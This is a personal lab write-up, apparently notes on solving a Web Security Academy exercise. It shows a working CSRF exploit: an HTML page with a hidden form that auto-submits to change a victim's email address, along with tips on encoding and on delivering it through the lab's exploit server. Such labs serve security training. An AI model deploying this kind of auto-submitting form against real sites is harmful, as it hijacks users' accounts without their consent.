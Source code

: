 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

---

Provided template:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```


Navigate to the labs exploit server, at the top of the page there is a tab to open it. Now paste in our malicious code into the body of the server that will deliver the response. Once we have it working on our account we can click the deliver to victim and complete the lab.

Exploit:

```html
<html> 
	<body>
		<form method="POST" action="https://0a13000b045ad9b380ef266700c5009c.web-security-academy.net/my-account/change-email">
		    <input type="hidden" name="email" value="tester123@gmail.com">
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

- It didn't like that the `@` was already encoded, but after changing the email to `tester123@gmail.com` it worked fine:

Change made:

`tester123%40gmail.com` to `tester123@gmail.com`

I think it was trying to encode it twice and the app was not liking it. 

![[IMG/Pasted image 20240922063609.png]]

I modify the email so it's not the same as the one i just used on my own account, and deliver it to the victim which complete the lab: `tester1234@gmailcom`

---



